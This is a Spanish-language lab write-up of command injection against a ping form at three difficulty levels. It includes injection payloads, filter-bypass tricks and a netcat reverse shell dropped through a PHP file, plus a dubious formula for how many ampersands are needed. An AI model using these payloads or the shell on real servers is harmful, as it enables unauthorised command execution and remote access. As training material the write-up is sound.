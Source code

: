 # Command Injection

La vulnerabilidad de inyección de comandos es una vulnerabilidad de seguridad que permite a un atacante ejecutar comandos arbitrarios en el sistema operativo del servidor. Esto puede conducir a la ejecución de comandos arbitrarios en el sistema operativo del servidor.

## Bajo

El planteamiento seguido ha sido el de ejecutar un comando después de otro, para ello, hemos completado el `ping -c 4` con una ip y a continueación hemos añadido la sentencia `; id` para mostrar el usuario que ejecuta el servicio web.

```bash
127.0.0.1 > /dev/null; id
```

![challenge](/CI/assets/challenge.png)

## Medio

Para este nivel, vemos que entradas como las siguientes no funcionan, esto es debido a que el servidor esta eliminando expresiones como `;` y `&&`.

```bash
127.0.0.1 > /dev/null; id
127.0.0.1 > /dev/null && id
```

Sin embargo, podemos aprovechar que la implementación no es segura y con alguna pequeña modificación podemos bypassear la protección.
<br>
**x** es el número de `&` que se deben escribir para que el comando `id` se ejecute.

$$
x = 2n + 3, n\in \mathbb{N}
$$

```bash
127.0.0.1 > /dev/null &&& id
```

Además, otra de las multiples posibilidades es utilizar el operador `||` para ejecutar el comando `id` si el comando anterior falla. Para ello se fuerza el fallo colocando una cadena invalida `-`.

```bash
- || id
```

![challenge](/CI/assets/challenge.png)

--- 

### Reverse shell

El primer paso es crear un servidor de escucha en el puerto 4000.

```bash	
nc -lvnp 4000
```

El siguiente paso es crear un archivo php que ejecute el comando `nc` para establecer una conexión con el servidor de escucha.

```bash
- || echo '<?php system("nc 127.0.0.1 4000 -e /bin/bash"); ?>' > shell.php
```

Por último, se ejecuta el archivo php para obtener una shell.

```bash
- || php shell.php
```

Como parte opcional se puede utilizar el siguiente comando para obtener una shell interactiva.

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

![shell](/CI//assets/reverse-shell.png)

## Alto

En este nivel, vemos que el servidor esta filtrando la entrada de comandos, por lo que no podemos ejecutar comandos arbitrarios. Sin embargo, al probar el comando utilizado para el nivel medio, vemos que el servidor esta fallando al filtrar la entrada.

```bash
- || id
```

Se ha detectado otra brecha al escribir el siguiente comando sin ningún espacio.

```bash
127.0.0.1|id
```

![challenge](/CI/assets/challenge.png)


